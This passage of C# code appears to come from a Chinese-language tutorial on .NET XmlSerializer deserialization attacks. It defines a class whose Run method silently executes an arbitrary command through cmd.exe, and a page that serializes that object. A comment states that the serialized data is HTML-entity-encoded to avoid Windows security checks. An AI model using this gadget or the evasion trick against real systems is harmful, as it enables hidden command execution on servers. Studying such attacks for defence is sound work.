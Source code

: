 ```
        {
        }
        public String Run()
        {
            Process p = new Process();
            // 设置要启动的应用程序
            p.StartInfo.FileName = "cmd.exe";
            // 不使用操作系统shell启动
            p.StartInfo.UseShellExecute = false;
            // 接受来自调用程序的输入信息
            p.StartInfo.RedirectStandardInput = true;
            // 输出信息
            p.StartInfo.RedirectStandardOutput = true;
            // 输出错误
            p.StartInfo.RedirectStandardError = true;
            // 不显示程序窗口
            p.StartInfo.CreateNoWindow = true;
            // 启动程序
            p.Start();
            // 向cmd窗口发送命令
            p.StandardInput.WriteLine(_cmd + "&exit");
            // 自动刷新
            p.StandardInput.AutoFlush = true;
            // 获取输出信息
            string strOuput = p.StandardOutput.ReadToEnd();
            //等待程序执行完退出进程
            p.WaitForExit();
            p.Close();
            // 返回执行结果
            return strOuput;
        }
    }
    public partial class _default : System.Web.UI.Page
    {
        protected void Page_Load(object sender, EventArgs e)
        {
            // 实例化对象 sc_Test
            Test sc_Test = new Test();
            // 创建字符串缓冲区buffer
            StringBuilder buffer = new StringBuilder();
            // 实例化序列号对象
            XmlSerializer serializer = new XmlSerializer(typeof(Test));
            // 序列化对象sc_Test并存储到buffer
            using (TextWriter writer = new StringWriter(buffer))
            {
                serializer.Serialize(writer, sc_Test);
            }
            String str = buffer.ToString();
            // 将xml数据HTML实体化，防止Windows安全检查拦截
            string r = string.Empty;
            for (int i = 0; i < str.Length; i++)
            {
                r += "&#" + Char.ConvertToUtf32(str, i) + ";";
            }
            // 输出到页面
            Response.Write("<center><h2>序列化数据</h2><textarea rows=\"10\" cols=\"100\" readonly align=\"center\">" + r+ "</textarea></center>");
 
        }
    }
}
```
使用下面代码将提交的XML数据反序列化，并执行对象的`Run`函数